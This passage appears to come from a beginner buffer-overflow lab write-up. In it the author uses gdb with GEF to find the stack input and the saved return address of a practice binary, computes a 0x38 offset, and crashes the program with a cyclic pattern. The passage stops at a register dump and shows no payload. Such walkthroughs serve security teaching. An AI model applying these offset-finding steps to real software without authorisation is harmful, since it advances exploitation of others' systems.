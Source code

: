 Now that we have done that 

I'll search for our input on the stack and the address of rip

```
gef➤  search-pattern 1234567890
[+] Searching '1234567890' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffdde0 - 0x7fffffffddea  →   "1234567890" 
gef➤  i f
Stack level 0, frame at 0x7fffffffde20:
 rip = 0x401253 in hax; saved rip = 0x401276
 called by frame at 0x7fffffffde30
 Arglist at 0x7fffffffde10, args: 
 Locals at 0x7fffffffde10, Previous frame's sp is 0x7fffffffde20
 Saved registers:
  rbp at 0x7fffffffde10, rip at 0x7fffffffde18
gef➤  
```

Now we have that our input is stored `0x7fffffffdde0` and the rip at that point is `0x7fffffffde18`

So i'll do the calculation to get the offset

```
└─$ python3             
Python 3.10.8 (main, Oct 24 2022, 10:07:16) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> hex(0x7fffffffde18-0x7fffffffdde0)
'0x38'
>>>
```

Cool the offset is `0x38` 

Also we can get the offset using cyclic 

```
└─$ cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

I'll run the binary in gdb and us the input as the value cyclic generated

```
└─$ gdb -q chall
GEF for linux ready, type `gef' to start, `gef config' to configure
90 commands loaded and 5 functions added for GDB 12.1 in 0.00ms using Python engine 3.11
Reading symbols from chall...
(No debugging symbols found in chall)
gef➤  r 
Starting program: /home/mark/Documents/Pentest/BOF/03-begineer_bof/chall 
[*] Failed to find objfile or not a valid file format: [Errno 2] No such file or directory: 'system-supplied DSO at 0x7ffff7fc9000'
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Pop Shell Buddy
Hey wait who are you: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401254 in hax ()


[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
```